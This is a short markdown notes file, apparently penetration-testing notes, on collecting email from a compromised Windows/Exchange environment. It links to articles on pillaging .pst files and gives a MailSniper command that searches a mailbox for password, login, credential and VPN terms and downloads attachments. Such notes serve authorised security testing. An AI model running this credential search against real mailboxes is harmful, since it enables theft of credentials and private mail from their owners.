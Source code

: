 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# BLS Notes

## Email Collection

#### Windows
* [Pillaging .pst Files](https://warroom.securestate.com/pillaging-pst-files/)
* [Pillage Exchange](https://warroom.securestate.com/pillage-exchange/)

# mailsniper

## Search emails for juicy strings, download attachments
```
$ invoke-selfsearch -Mailbox bob@evilcorp.com -terms "*pwd*","*login*","*user*","*account*","*password*","*creds*","*credentials*","*vpn*" -output bob3.csv -CheckAttachments -DownloadDir c:\users\admin\downloads\mailsniper-master\attachments -Folder "Deleted Items"
```